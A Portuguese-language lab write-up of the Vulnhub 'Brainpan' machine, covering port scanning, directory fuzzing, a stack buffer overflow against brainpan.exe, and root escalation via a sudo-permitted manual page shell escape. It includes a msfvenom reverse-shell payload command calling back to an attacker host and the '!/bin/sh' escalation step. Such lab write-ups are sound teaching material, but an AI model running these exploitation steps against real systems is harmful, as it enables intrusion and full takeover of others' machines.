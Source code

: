 ```yaml
---
title: Vulnhub - Brainpan
categories: [Vulnhub]
#tags: []
render_with_liquid: false
image: https://0xPurpl3john.github.io/assets/img/Vulnhub/brainpan/capa.png
---
```



## Link da Maquina: <https://www.vulnhub.com/entry/brainpan-1,51/>
---



## Scanning web and services
### Host Discovery

Inicialmente, foi realizado um escaneamento na rede em busca do IP da máquina alvo.

```bash
sudo nmap 10.0.2.1-255 -sn
```

![scan nmap -sn](/assets/img/Vulnhub/brainpan/scannmap.png)

### Port Discovery

Já com o IP alvo em mãos, foi utilizado o comando abaixo para obter mais informações a respeito das portas e serviços que estariam em funcionamento no alvo. O comando abaixo é dividido em duas partes, primeiramente ele realiza um escaneamento em todas as `65535 portas` existentes e as filtra, armazenando tudo na variável `ports` que é utilizada na segunda parte do comando.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.0.2.7 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.0.2.7
```

![Resultado scan nmap](/assets/img/Vulnhub/brainpan/resultnmap.png)

Como resultado foi obtido as portas `9999` com um serviço até então desconhecido denominado *”abyss?”* e `10000` utilizando um *SimpleTTPServer.* A partir dessa informação, deu-se início à enumeração das portas.

## Enumeration

### HTTP

Tendo em vista o total desconhecimento sobre o serviço da porta `9999`, foi iniciado a enumeração da porta `10000` e foi encontrado uma página onde o conteúdo inteiro presente é uma imagem.

![10.0.2.7:10000](/assets/img/Vulnhub/brainpan/web10000.png)

A partir disso foi utilizado a ferramenta **fuff** para realizar o fuzzing de diretórios no serviço. Como resultado foi encontrado o diretório `/bin` no destino: `[http://10.0.2.7:10000/bin](http://10.0.2.7:10000/bin)` 

```bash
ffuf -u http://10.0.2.7:10000/FUZZ -w /usr/share/wordlists/dirb/big.txt
```

![ffuf](/assets/img/Vulnhub/brainpan/ffuf.png)

Dentro do diretório `/bin` foi encontrado o arquivo `brainpan.exe` que ao ser testado com a ferramenta **wine**, mostrou-se ser o serviço que estava funcionando na porta 9999, conforme apresentado nas figuras abaixo.

![conteudo dir /bin](/assets/img/Vulnhub/brainpan/dirbin.png)

![brainpan.exe](/assets/img/Vulnhub/brainpan/brainpan.png)

![teste brainpan.exe](/assets/img/Vulnhub/brainpan/testbrainpan.png)

> Foram feitas algumas tentativas de entradas de dados (senha) porém todas sem sucesso.
> 

Após, foram iniciados testes com quantidades diferentes de strings até que fosse possível quebrar o programa, de acordo com as imagens a seguir.

![python -c ‘print (”A” * 200)’](/assets/img/Vulnhub/brainpan/python-c.png)

![Resultado da inclusão de 200 A’s](/assets/img/Vulnhub/brainpan/result200a.png)

Como visto, utilizando 200 bytes o programa funcionou normalmente. Agora, utilizaremos 1000 bytes.

![python -c ‘print (”A” * 10000)’](/assets/img/Vulnhub/brainpan/print1000a.png)

Foi possível quebrar o programa, logo, não há tratamento para dados em excesso e com isso tentaremos realizar o *Buffer Overflow.*

## Buffer Overflow

Após observar como a aplicação se comporta através da ferramenta *gdb,* foi verificado que o espaço de armazenamento da aplicação era de aproximadamente 520 bytes, logo, utilizando o comando abaixo, foi gerado uma lista com strings únicas.

```bash
msf-pattern_create -l 530
```

![brainpan.exe buffer](/assets/img/Vulnhub/brainpan/brainpanbuffer.png)

Enviando essa string para a área de input do binário alvo, e, observando o que acontece com a ferramenta *Immunity Debugger,* foi possível obter o parâmetro EIP onde a aplicação quebra.

![Parâmetro EIP](/assets/img/Vulnhub/brainpan/parametroeip.png)

Utilizando os dados obtidos no EIP da aplicação e, utilizando o comando abaixo, é possível obter a posição do desejado *offset.*

```bash
msf-pattern_offset -l 530 -q 35724134
```

![offset 524](/assets/img/Vulnhub/brainpan/offset524.png)

Com o valor do *offset* em mãos, chega a hora de utilizar nosso script para termos certeza a respeito do domínio total do EIP. O script abaixo, envia, de maneira automática, um buffer composto de 524 strings “A” e mais 4 strings “B”. As strings “B” (42) deverão ser visualizadas nos registradores do EIP.

![fuzzer.py](/assets/img/Vulnhub/brainpan/fuzzerpy.png)

![evil buffer in work](/assets/img/Vulnhub/brainpan/evilbuffer.png)

![local das strings BBBB](/assets/img/Vulnhub/brainpan/stringsbbbb.png)

Conforme a figura acima, o EIP foi corretamente preenchido com as strings “B”. Com isso, nosso controle do EIP está garantido.

Para gerar uma lista com todos os *chars* é utilizado os seguintes comandos

- `!mona config -set workingfolder c:\monalogs\%p`
- `!mona bytearray`

Gerando a seguinte lista de chars

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![fuzzer-2.py](/assets/img/Vulnhub/brainpan/fuzzer2py.png)

![!mona compare -f c:\monalogs\brainpan\bytearray.bin -a 0028F930](/assets/img/Vulnhub/brainpan/monacompare.png)

Com base na resposta do *mona* na figura acima, foi percebido que havia `\x00\` como um *badchar.* A partir disso, foram repetidos os passos anteriores porém, utilizando o parâmetro *-b* e o *badchar.*

Novamente foi feito o fuzzing para verificação de novos *badchars.* Não foi encontrado nenhum.

Tendo em vista que já encontramos e temos controle total do EIP, chegou a hora de buscar na aplicação o *opcode* JMP ESP.

> O *opcode* JMP ESP é responsável por realizar um SALTO para o *opcode* ESP.
> 

![opcode JMP ESP](/assets/img/Vulnhub/brainpan/opcodejmpesp.png)

Como visualizado na figura acima, foi encontrado o *opcode* JMP ESP e o mesmo possui os parâmetros 311712F3 e estes, devem ser passados, ao contrário, para nosso script no parâmetro *retn* conforme apresentado na figura abaixo.

![fuzzer-3.py](/assets/img/Vulnhub/brainpan/fuzzer3py.png)

No script `fuzzer-3.py` pode-se observar as variáveis “overflow, retn e padding”. Na variável “padding” está sendo enviado 400 strings “\xCC\” logo após o JMP ESP que está na variável “retn”.

![sending fuzzer-3.py](/assets/img/Vulnhub/brainpan/fuzzer3pysend.png)

![Tela Immunity Debbuger xCC](/assets/img/Vulnhub/brainpan/telaimmunity.png)

O próximo passo é criar o payload que será utilizado após a variável “padding” do nosso script. Para isso deve ser utilizado o comando abaixo.

> Lembrando de alterar os dados LHOST e LPORT
> 

```bash
sudo msfvenom -p linux/x86/shell_reverse_tcp -b '\x00' LHOST=10.0.2.6 LPORT=1337 -f python
```

![msfvenom payload](/assets/img/Vulnhub/brainpan/payload.png)

![fuzzer-4.py](/assets/img/Vulnhub/brainpan/fuzzer4py.png)

Executando o script da figura acima e utilizando o *nc* como o listener da porta 1337, entramos na máquina.

### Shell Obtido

![Shell Obtido!](/assets/img/Vulnhub/brainpan/shellobtido.png)

## Privilege Escalation

A partir do momento que foi obtido a shell na máquina alvo, foram realizados procedimentos padrão em busca da escalação de privilégios e o comando `sudo -l` nos trouxe como resposta que o usuário **puck** possuía permissão de executar o comando `/home/anansi/bin/anansi_util` como um usuário mais privilegiado, no caso, o root.

![/home/anansi/bin/anansi_util](/assets/img/Vulnhub/brainpan/anansi_util.png)

Executando o comando supracitado e entendendo seu funcionamento, foi possível observar que o mesmo possuía alguns parâmetros para executar. Dentre eles, o parâmetro **manual** chamou a atenção e ao utiliza-lo foi possível observar que havia a possibilidade de chamar outros comandos dentro do manual, conforme a figura abaixo.

![!/bin/sh](/assets/img/Vulnhub/brainpan/binsh.png)

Ao utilizar o comando `!/bin/sh` foi possível escalar privilégios.

![b.txt](/assets/img/Vulnhub/brainpan/btxt.png)

### Root obtido Brainpan!
